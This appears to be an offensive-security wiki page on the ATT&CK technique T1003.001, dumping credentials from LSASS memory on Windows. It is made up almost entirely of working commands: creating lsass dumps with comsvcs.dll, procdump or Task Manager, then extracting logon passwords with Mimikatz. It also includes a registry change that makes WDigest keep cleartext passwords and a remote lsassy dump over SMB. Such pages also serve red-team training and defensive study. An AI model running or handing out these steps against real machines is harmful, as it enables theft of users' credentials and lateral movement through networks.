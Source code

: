 ```yaml
---
description: https://attack.mitre.org/techniques/T1003/001/
---
```


# LSASS Memory

**ATT\&CK ID:** [T1003.001](https://attack.mitre.org/techniques/T1003/001/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, the system generates and stores a variety of credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct [Lateral Movement](https://attack.mitre.org/tactics/TA0008) using [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550).

As well as in-memory techniques, the LSASS process memory can be dumped from the target host and analyzed on a local system.

## Techniques

### comsvcs.dll

```powershell
# Get lsass.exe PID
tasklist /fi "Imagename eq lsass.exe"

# Call comsvcs.dll and dump to file.
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> \Windows\Temp\lsass_dump.dmp full

# Dump with Mimikatz
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```

### Mimikatz

```powershell
Invoke-Mimikatz -DumpCreds
```

![](../../../../.gitbook/assets/Mimikatz-DumpCreds.png)

### Procdump

**URL:** [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

```batch
.\procdump.exe -accepteula -ma lsass.exe lsass_dump
```

![](../../../../.gitbook/assets/procdump.png)

`Mimikatz` can then be used to pull information from the `lsass_dump.dmp` file.

```powershell
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```

## Dumping cleartext credentials

The storage mechanism used by WDigest stores passwords in clear text in memory. If an adversary gains access to a system , they can utilize tools like Mimikatz and Lsassy to retrieve not only the password hashes stored in memory, but also the actual passwords in clear text

As a consequence, the attacker would not be restricted to only Pass-the-Hash methods of lateral movement, but could potentially gain access to other resources such as Exchange, internal websites, and any other systems that require a user ID and password for authentication.

```powershell
# CMD (Enable), Requires user to log off/on or lock screen to store in cleartext
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

# CMD (Disable), System reboot required to complete
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

```powershell
# Mimikatz (Everything)
Invoke-Mimikatz -DumpCreds
# Mimikatx (Just WDigest)
Invoke-Mimikatz -Command '"sekurlsa::wdigest"'

# Lsassy
lsassy -u '[User]' -p '[Password]' -d '[Domain]' '[Target-IP]' --users --exec smb
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Task Manager / RDP

With Administrative RDP or interactive logon it is possible to create a dump file from Lsass.exe using Task Manger.

_Lsass.exe -> Right Click -> Create Dump File_

<figure><img src="../../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

Use Mimikatz to read the dump file after transfering the file to an attacker controlled system

```powershell
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass.DMP"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```
